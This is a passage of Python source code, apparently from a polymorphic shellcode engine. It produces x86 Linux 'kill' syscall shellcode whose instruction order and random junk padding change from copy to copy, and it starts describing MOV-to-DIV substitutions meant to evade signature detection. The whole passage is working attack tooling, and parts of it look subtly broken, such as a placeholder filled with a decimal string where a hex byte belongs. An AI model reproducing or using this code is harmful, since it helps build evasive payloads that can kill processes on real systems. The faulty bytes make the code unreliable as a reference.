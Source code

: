     setup_blk.extend(nop_blk)
    shuffle(init_blk);
    shuffle(setup_blk);

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";

def kill_nop_super_dope():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    nop_blk=["\\x90", "\\x6a\\x$$", "\\x42", "\\x4a", "\\x50", "\\x53", "\\x51", "\\x52"]

    shuffle(nop_blk)
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    to_add=nop_blk[0:n]
    setup_blk.extend(to_add)
    par = randint(1,255);


    shuffle(init_blk);
    shuffle(setup_blk);

    tmp="".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";
    shellcode=tmp.replace("$$", str(par));
    return shellcode

def kill_div_for_mov(n, mov_to_cl):
    # DIV stores result in AX and if the divider is 1 byte long, the result is
    # in AL and reminder in AH
    # e.g.
    #   AL = 37
    #   AH = 0
    #   Our code here will calculate an initializer number for EAX this way:
    #       DL = random number between 1..FF
    #       EAX = 37 * DL
    #
    # After the last div, n will be stored in AL and AH will be 0.
    # The impact in terms of byte is +4 bytes every MOV substituted with the
    # DIV. The impact is +6 when the value must be in another register but EAX.
    #
    # This strategy is too expensive in terms of shellcode lenght and *MUST